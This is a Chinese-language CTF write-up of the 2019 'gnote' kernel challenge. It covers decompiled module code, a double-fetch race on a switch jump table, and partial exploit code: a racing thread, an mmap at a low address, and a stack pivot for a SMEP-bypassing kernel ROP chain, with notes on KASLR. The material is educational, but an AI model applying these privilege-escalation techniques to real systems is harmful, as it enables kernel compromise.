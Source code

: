 # tokyo019 gnote
## IDA

```c
switch ( *buf )
  {
    case 1:                                     // cmd 1: add usr{size|cmd}
      if ( (unsigned __int64)cnt <= 7 )
      {
        v4 = (unsigned int)buf[1];
        v5 = &notes[cnt];
        *(_QWORD *)&v5->size = v4;
        if ( v4 <= 0x10000 )
        {
          v6 = _kmalloc(v4, 0x6000C0LL);
          ++cnt;
          v5->ptr = (size_t *)v6;
        }
      }
      break;
    case 5:                                     // cmd 5: set selected
      if ( (unsigned int)buf[1] < (unsigned __int64)cnt )
        selected = (unsigned int)buf[1];
      break;
    default:
      break;
  }

.text:0000000000000019                 cmp     dword ptr [rbx], 5 ; switch 6 cases
.text:000000000000001C                 ja      short def_28    ; jumptable 0000000000000028 default case, case 0
.text:000000000000001E                 mov     eax, [rbx]
.text:0000000000000020                 mov     rax, ds:jpt_28[rax*8]
.text:0000000000000028                 jmp     __x86_indirect_thunk_rax ; switch jump
```

问题出现在switch的跳转表上，可见在0x19与0x20两条指令之间存在double fetch的错误，在用户态的另一个线程不停修改*buf的内容，则会出现*buf大于5的情况。

## 调试

1. 信息泄漏

由于没有初始化note的内容，因此可以通过spray seq_operation来泄漏内核基址。

2. 关闭kaslr

```c
void* thread_func(void* arg) {
    asm volatile("mov %1, %%eax\n"
                 "mov %0, %%rbx\n"
                 "lbl:\n"
                 "xchg (%%rbx), %%eax\n"
                 "jmp lbl\n"
                 :
                 : "r" (arg), "r" (jmp_idx)
                 : "rax", "rbx"
                 );
    return 0;
}
//关闭kaslr时，发现jpt_28跳转表的机制是0xffffffffc0001098
//因此设置jmp_idx可以劫持指令流到0x1000
size_t * page = mmap(0x1000, MAP_SIZE,  PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS | MAP_FIXED, -1, 0);
jmp_idx = ((size_t)page + 0x3fffef68) / 8;
//后面通过xchg_eax_esp来劫持栈，进行绕过SMEP机制的KROP即可
```

3. 打开kaslr

注意模块的偏移与内核偏移没有关系，模块的偏移在0x1000000之间，因此可以分配16M的mmap空间，在相应页偏移写好xchg_eax_esp的地址即可。然而，这样做mmap会失败，因为正常程序.text段会在这个范围内，本题可以通过`gcc exp.c -o exp -static -pthread -Wl,--section-start=.note.gnu.build-id=0x40200200`来避免mmap失败。也可以使mmap分配到其他位置，然后修改对应的jmp_idx，但是需要注意xchg得到的rax只有32位的大小，因此jmp_table不能跳到较高的地址。
